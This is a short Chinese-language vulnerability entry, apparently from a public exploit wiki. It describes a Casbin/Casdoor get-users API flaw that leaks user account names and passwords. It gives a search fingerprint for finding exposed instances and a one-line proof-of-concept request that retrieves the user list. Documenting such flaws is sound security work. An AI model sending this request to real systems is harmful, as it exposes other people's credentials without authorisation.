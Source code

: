 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>Casbin</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Casdoor"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646232783496-55549f0b-2c00-4f19-93bd-764b2df2d7e1.png)

验证POC

```javascript
/api/get-users?p=123&pageSize=123
```

![img](/assets/PeiQi-Wiki/img/1646232815871-7695e1f9-9425-44a5-bece-8a511e757461.png)

